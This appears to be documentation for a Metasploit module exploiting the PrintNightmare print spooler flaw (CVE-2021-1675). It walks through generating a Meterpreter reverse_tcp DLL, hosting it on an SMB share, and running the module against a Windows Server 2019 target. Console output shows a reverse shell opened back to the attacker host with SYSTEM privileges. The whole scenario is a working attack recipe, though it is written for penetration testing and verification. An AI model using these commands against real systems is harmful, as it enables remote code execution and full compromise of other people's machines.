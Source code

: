 ## Vulnerable Application
The print spooler service can be abused to load a remote DLL through a crafted DCERPC request.

## Verification Steps

1. Optionally, create a DLL payload that the target will execute
    1. From msfconsole
    1. Do: `use payload/windows/x64/meterpreter/reverse_tcp`
    1. Set the `LHOST` and `LPORT` values
    1. Do: `to_handler` to start the payload handler
    1. Do: `generate -f dll -o /path/to/save/the/payload.dll` to generate the DLL file
1. Start an SMB server with anonymous read access containing the DLL payload
1. Exploit the vulnerability to force the target to load the DLL payload
    1. From msfconsole
    1. Do: `use auxiliary/admin/dcerpc/cve_2021_1675_printnightmare`
    1. Set the `RHOSTS` values
    1. Set the `SMBUser` and `SMBPass` values
    1. Set the `DLL_PATH` value to the UNC path to the server and payload DLL like `\\192.168.0.2\public\payload.dll`
    1. Run the module

## Options

### DLL_PATH

The path to the DLL that the server should load. This path can either be a network-based UNC path or a local path on the
remote target.

## Scenarios

### Windows Server 2019

First, generate the payload DLL or use an existing one. Copy it to the SMB server and note the UNC path. Any DLL can be
used but the architecture must match the host. This example generates a 64-bit Meterpreter payload using the Reverse TCP
stager.

```
msf6 > use payload/windows/x64/meterpreter/reverse_tcp
msf6 payload(windows/x64/meterpreter/reverse_tcp) > set LHOST 192.168.159.128 
LHOST => 192.168.159.128
msf6 payload(windows/x64/meterpreter/reverse_tcp) > to_handler 
[*] Payload Handler Started as Job 0
msf6 payload(windows/x64/meterpreter/reverse_tcp) > 
[*] Started reverse TCP handler on 192.168.159.128:4444 

msf6 payload(windows/x64/meterpreter/reverse_tcp) > generate -f dll -o /tmp/reverse_tcp.x64.dll
[*] Writing 8704 bytes to /tmp/reverse_tcp.x64.dll...
msf6 payload(windows/x64/meterpreter/reverse_tcp) >
```

Next, use the module to trigger loading the DLL. Note that when setting the `DLL_PATH` option, the `\` characters are
doubled to be escaped on the command line.

```
msf6 payload(windows/x64/meterpreter/reverse_tcp) > use auxiliary/admin/dcerpc/cve_2021_1675_printnightmare 
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > set DLL_PATH \\\\192.168.159.128\\public\\reverse_tcp.x64.dll
DLL_PATH => \\192.168.159.128\public\reverse_tcp.x64.dll
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > set RHOSTS 192.168.159.96
RHOSTS => 192.168.159.96
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > set SMBUSER aliddle
SMBUSER => aliddle
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > set SMBPASS Password1
SMBPASS => Password1
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > run
[*] Running module against 192.168.159.96

[*] 192.168.159.96:445 - Target environment: Windows v10.0.17763 (x64)
[*] 192.168.159.96:445 - Binding to 12345678-1234-abcd-ef00-0123456789ab:1.0@ncacn_np:192.168.159.96[\spoolss] ...
[*] 192.168.159.96:445 - Bound to 12345678-1234-abcd-ef00-0123456789ab:1.0@ncacn_np:192.168.159.96[\spoolss] ...
[*] 192.168.159.96:445 - Enumerating the installed printer drivers...
[*] 192.168.159.96:445 - Using driver path: C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_2097e02ea77b432e\Amd64\UNIDRV.DLL
[*] 192.168.159.96:445 - Using directory: C:\Windows\system32\spool\DRIVERS\x64
[*] 192.168.159.96:445 - RpcAddPrinterDriverEx response 0 ERROR_SUCCESS (The operation completed successfully.)
[*] Sending stage (200262 bytes) to 192.168.159.96
[*] 192.168.159.96:445 - Error STATUS_PIPE_BROKEN (The pipe operation has failed because the other end of the pipe has been closed.)
[-] 192.168.159.96:445 - Error STATUS_PIPE_CLOSING (The specified named pipe is in the closing state.)
[-] 192.168.159.96:445 - Error STATUS_PIPE_CLOSING (The specified named pipe is in the closing state.)
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > [*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.96:49732) at 2021-07-02 15:59:30 -0400

msf6 auxiliary(admin/dcerpc/cve_2021_1675_printnightmare) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-3MSP8K2LCGC
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MSFLAB
Logged On Users : 9
Meterpreter     : x64/windows
meterpreter >
```
